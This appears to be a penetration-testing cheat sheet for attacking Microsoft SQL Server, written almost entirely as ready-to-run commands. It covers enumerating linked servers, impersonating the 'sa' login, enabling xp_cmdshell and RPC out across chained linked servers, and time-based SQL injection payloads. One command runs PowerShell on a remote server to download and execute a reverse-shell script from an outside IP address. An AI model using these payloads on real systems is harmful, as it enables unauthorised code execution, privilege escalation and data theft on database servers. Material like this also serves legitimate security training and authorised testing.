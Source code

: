 # MSSQL

## Commands

### Enumeration

```csharp
SELECT * from master..sysservers
```

```csharp
EXEC ('SELECT SUSER_NAME()');
```

#### List users

```csharp
SELECT name FROM sys.server_principals 
```

### Impersonate user

```csharp
EXECUTE AS LOGIN = 'sa';
```

### Check user context on remote servers

```csharp
EXEC ('SELECT SUSER_NAME()') AT "SQL2_SERVER";
```

### Execute remote commands

```csharp
SELECT * FROM OPENQUERY("SQL2_SERVER", 'select * from master..sysservers')
```

### Enable XP\_CMDSHELL on remote server

```csharp
EXECUTE ('EXEC sp_configure ''show advanced option'', ''1'';reconfigure;')  AT SQL2_SERVER
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "SQL2_SERVER";
```

### **Enable RPC out**

```csharp
EXECUTE ('EXEC SP_ServerOption ''SQL3_SERVER'',''RPC OUT'',TRUE') AT SQL2_SERVER
```

### DataLinks abuse

```csharp
EXECUTE ('EXEC SP_ServerOption ''SQL3_SERVER'',''RPC OUT'',TRUE') AT SQL2_SERVER
EXECUTE ('EXECUTE (''EXEC sp_configure ''''show advanced option'''',''''1'''';reconfigure;'') AT SQL3_SERVER') AT SQL2_SERVER
EXECUTE ('EXECUTE (''EXEC sp_configure ''''xp_cmdshell'''',''''1'''';reconfigure;'') AT SQL3_SERVER') AT SQL2_SERVER
EXECUTE ('EXECUTE (''EXEC xp_cmdshell EXECUTE ''''hostname'''';'') AT SQL3_SERVER') AT SQL2_SERVER
# Get a shell
EXECUTE ('EXECUTE (''EXEC xp_cmdshell ''''cmd /c powershell -c iex((new-object net.webclient).downloadstring(''''''''http://10.110.0.10/rev443.ps1''''''''))'''';'') AT SQL3_SERVER') AT SQL2_SERVER
```

## Injections

### Time Based

```csharp
uname=test';WAITFOR DELAY '0:0:5'--&psw=test
```

```csharp
test';IF(UNICODE(SUBSTRING((SELECT TOP 1 ISNULL(CAST(name AS NVARCHAR(4000)),CHAR(32)) FROM master..sysdatabases WHERE name NOT IN (SELECT TOP 5 name FROM master..sysdatabases ORDER BY name) ORDER BY name),1,1))>1) WAITFOR DELAY '0:0:5'--
```

